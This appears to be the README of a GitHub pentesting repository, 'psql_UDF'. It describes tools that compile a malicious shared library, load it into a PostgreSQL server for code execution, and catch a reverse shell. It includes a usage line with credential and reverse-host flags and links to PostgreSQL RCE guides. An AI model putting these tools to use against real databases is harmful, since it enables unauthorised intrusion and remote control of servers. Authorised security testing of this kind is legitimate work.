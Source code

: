 # psql_UDF

This repo includes 4 files:

pg_exec.c  (file for creating .so, you should use docker with a compatible version of postgresql)

psql_so_loader_auto.py (script to load .so lib on the postgresql server if you have rights)

psql_so_loader_auto_v2.py (the same script but with socket server for reverse shell)

server_for_pg.py (just alone socket server for reverse shell)




Thanks a lot those people:

https://book.hacktricks.xyz/pentesting-web/sql-injection/postgresql-injection/rce-with-postgresql-extensions

https://book.hacktricks.xyz/pentesting-web/sql-injection/postgresql-injection/big-binary-files-upload-postgresql

https://github.com/nixawk/pentest-wiki/blob/master/2.Vulnerability-Assessment/Database-Assessment/postgresql/postgresql_hacking.md

https://gist.github.com/0xabe-io/916cf3af33d1c0592a90

https://xakep.ru/2020/04/14/python-reverse-shell/#toc03.1




USAGE:

python psql_so_loader_auto_v2.py [-h] [-p PASSWORD] [-u USERNAME] [-d DATABASE] [-H HOSTNAME] [-P PORT] [-rh RHOST] [-rp RPORT] -f FILENAME

This is parser arguments

options:
 
 -h, --help            show this help message and exit
 
 -p PASSWORD, --password PASSWORD
                        pass for postgresql
 
 -u USERNAME, --username USERNAME
                        user for postgresql
 
 -d DATABASE, --database DATABASE
                        database for postgresql
 
 -H HOSTNAME, --hostname HOSTNAME
                        hostname or IP for postgresql
 
 -P PORT, --port PORT  database for postgresql
 
 -rh RHOST, --rhost RHOST
                        ip of host listen reverse
 
 -rp RPORT, --rport RPORT
                        port of host listen reverse
 
 -f FILENAME, --filename FILENAME
                        file name of lib.so

